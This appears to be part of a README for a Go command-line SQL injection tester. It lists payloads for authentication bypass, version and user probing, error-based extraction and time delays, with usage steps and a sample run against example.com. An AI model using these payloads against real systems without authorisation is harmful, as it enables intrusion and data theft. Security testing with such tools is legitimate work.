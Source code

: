 ## Payload Categories

### Authentication Bypass
```sql
admin'--
admin'/*
' OR '1'='1
```

### Information Gathering
```sql
' AND @@version IS NOT NULL--
' AND version() IS NOT NULL--
' AND user() IS NOT NULL--
```

### Error Generation
```sql
'
"
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e))--
```

### Time Delays
```sql
'; WAITFOR DELAY '00:00:05'--
'; SELECT SLEEP(5)--
'; SELECT pg_sleep(5)--
```

## Usage

```bash
go run main.go
```

### Testing Options

1. **Single URL Test**: Test one parameter on a target URL
2. **Multiple Parameters**: Test multiple parameters simultaneously
3. **Payload Database**: View all available payloads and statistics
4. **Custom Payload**: Test custom SQL injection payloads

### Example Usage

```
Enter target URL: http://example.com/login.php?user=admin&pass=password
Enter parameter name to test: user

Starting SQL injection test on http://example.com/login.php?user=admin&pass=password (parameter: user)
Progress: 1/50 - Testing: ERROR_BASED
Progress: 2/50 - Testing: BOOLEAN_BASED
...
```
